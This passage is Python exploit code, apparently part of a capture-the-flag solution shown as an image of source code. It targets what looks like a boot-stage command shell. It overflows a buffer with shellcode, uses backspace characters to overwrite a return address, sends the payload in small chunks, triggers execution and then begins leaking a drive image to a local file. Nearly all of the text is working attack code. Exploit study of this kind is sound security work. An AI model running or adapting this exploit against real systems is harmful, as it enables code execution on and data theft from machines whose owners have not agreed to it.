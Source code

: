 ```python

print("Shellcode: ",shellcode.hex())
# Setting up shellcode
payload = (BEFORE_SHELLCODE_BUF_LEN) * b"\x41"  + shellcode + b"\x0d"
io.send(payload)

pause()

# Spamming 0x8 (backspace) to overwrite system var
# We are trying to go from 0x7e80 down to (0x7e00 - 5)
go_back_length = 0x85
payload = b"\x08"*go_back_length

# Writing our bytes to the return address of the system-statement
print("Shellcode address: ",shellcode_address.hex())
payload += shellcode_address + b"\x01\x55\xaa\x0d"  # The replacement of 0x55aa is not
                                               # actually necessary, but cool :cool:
print("preload - Payload: ", payload)
print("Length: ", len(payload))

# This will place the shellcode generating code onto the stack and then 
# jump there

# Sending it slowly to not lose bytes along the way
pack_size = 0xf
while payload:
    print(f"Send {pack_size} bytes")
    if len(payload) <= pack_size:
        packet = payload
        payload = ""
    else:
        packet = payload[:pack_size]
        payload = payload[pack_size:]

    io.send(packet)
    time.sleep(0.3)

pause()
io.send("system\r")
# Shellcode delivery payload

#print(io.recvall(timeout=1))


def convert_hex(l):
    normal = "0123456789ABCDEF"
    bios   = "0123456789:;<=>?"
    for n_i,b_i in zip(normal,bios):
        l = l.replace(b_i,n_i)
    return l


#print(io.recvall(timeout=1))
print("--------")

for i in range(17):
    io.send(b"\r")
    io.recvline()

print("[*] Starting leak")
leak_file = open("./leaked_first_drive.img","wb")
for i in range(14):
    io.send("\r")
```